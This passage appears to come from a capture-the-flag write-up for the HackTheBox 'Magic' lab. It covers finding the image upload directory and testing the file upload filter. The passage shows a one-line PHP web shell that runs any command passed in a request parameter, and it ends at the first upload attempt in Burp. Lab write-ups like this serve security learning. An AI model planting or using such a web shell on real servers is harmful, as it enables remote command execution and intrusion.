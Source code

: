 ![access-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Magic/img/access-12.png)


So we can access our uploaded images in the `/images/uploads/` directory by thier original name with no issue. The next step would be to find a way to upload a script that we can use to get a shell, the question is how good is the security of this file upload?


I start by creating a simple web-shell script with the php code below and named it `htb.php`:

```php
<?php system($_REQUEST['cmd']); ?>
```

I tried to upload this file to the server while capturing the response in Burp:

![err-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Magic/img/err-13.png)
